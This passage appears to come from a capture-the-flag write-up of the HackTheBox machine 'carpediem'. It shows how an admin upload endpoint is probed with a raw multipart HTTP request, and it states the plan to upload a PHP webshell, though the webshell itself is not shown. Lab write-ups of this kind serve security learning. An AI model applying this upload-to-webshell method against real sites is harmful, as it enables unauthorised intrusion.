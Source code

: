 The upload functions still being in development might mean this is vulnerable. I tried clicking on Add, but it did nothing. When inspecting the traffic, we can see it making POST requests to `/classes/users.php?f=upload`.&#x20;

<figure><img src="../../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

This accepts form-data and also is a PHP-based website (as from X-Powered-By), so let's try to upload a PHP webshell. I took some requests I had from other machines / scripts that also uploaded form-data.&#x20;

```http
POST /classes/Users.php?f=upload HTTP/1.1
Host: portal.carpediem.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Origin: http://portal.carpediem.htb
Connection: close
Referer: http://portal.carpediem.htb/admin/?page=maintenance/files
Cookie: PHPSESSID=23b68a0603f55733b3d5172c5121111a
Content-Type: multipart/form-data; boundary=---------------------------9051914041544843365972754266
Content-Length: 268

-----------------------------9051914041544843365972754266
Content-Disposition: form-data; name="file_upload"; filename="a.html"
Content-Type: text/html

<!DOCTYPE html><title>Content of a.html.</title>

-----------------------------9051914041544843365972754266--
```

The above request works and it will be uploaded:

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>
